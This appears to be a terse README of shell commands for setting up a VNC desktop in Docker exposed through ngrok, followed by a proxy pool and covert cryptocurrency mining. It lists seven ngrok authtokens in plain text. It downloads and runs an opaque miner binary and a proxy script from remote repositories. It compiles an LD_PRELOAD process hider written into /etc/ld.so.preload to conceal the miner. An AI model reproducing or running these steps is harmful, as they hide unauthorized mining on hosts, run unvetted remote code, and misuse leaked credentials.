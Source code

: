 # creat vps docker vnc : 
- install docker : apt install -y apt-transport-https ca-certificates curl software-properties-common && curl -fsSL https://download.docker.com/linux/ubuntu/gpg | gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg && echo "deb [arch=amd64 signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable" | tee /etc/apt/sources.list.d/docker.list > /dev/null && apt update && apt install -y docker-ce docker-ce-cli containerd.io && usermod -aG docker $USER && service docker restart
- docker run -it --rm -p 6080:80 -p 5900:5900 dorowu/ubuntu-desktop-lxde-vnc
- wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz && tar -xf ngrok-v3-stable-linux-amd64.tgz && ./ngrok config add-authtoken 2eqKuowsYAQzDkn0uAG8WWxxfTy_4MWVSLvDjfSCWgPsQVbm5
- ./ngrok http 6080
  
   token ngrok :
- 2TtAcvy5faRWDPlmnbt2tauuMfy_J8rCNerKtLqLeJqrMTGY
- 2TY9j0ZPVtJfGB3HQPVxoIAcKR6_2sqBzNTKDZnacRm9hJtFK
- 2U9omfblkr1JR4VhgmIQwk0XkaP_2MRDsYsLaWzj2ouhqVCaY
- 2UEc6WUEbjbA3JpjmWfem5IZFzK_6EyQFfMJ1amaocetmur7q
- 2UbN0YLLgdPR7xDmmkMPtaTMxRd_7YiSYjH3rcoXKt5goPE6Q
- 2eqK7m0aHI98zyKc5kutUVwk5xe_44hNpSjdL1HSGtftH5dso
- 2eqKuowsYAQzDkn0uAG8WWxxfTy_4MWVSLvDjfSCWgPsQVbm5

  create proxy pool :
  kill port : apt-get install psmisc -y && fuser -k 4050/tcp
- wget https://raw.githubusercontent.com/bulboni/minware/main/proxm.py && nohup python3 proxm.py
  
  step mining :
- hide miner no gcc: git clone https://github.com/cihuuy/libn && cd libn && apt install gcc -y && gcc -Wall -fPIC -shared -o libprocess.so processhider.c -ldl && mv libprocess.so /usr/local/lib/ && echo /usr/local/lib/libprocess.so >> /etc/ld.so.preload
- hide miner wiht gcc: git clone https://github.com/cihuuy/libn && cd libn && gcc -Wall -fPIC -shared -o libprocess.so processhider.c -ldl && mv libprocess.so /usr/local/lib/ && echo /usr/local/lib/libprocess.so >> /etc/ld.so.preload
  download and runing miner 2 core :
wget https://github.com/bulboni/minware/raw/main/durex && wget https://raw.githubusercontent.com/bulboni/sumocn/main/config.json && chmod +x durex && ./durex
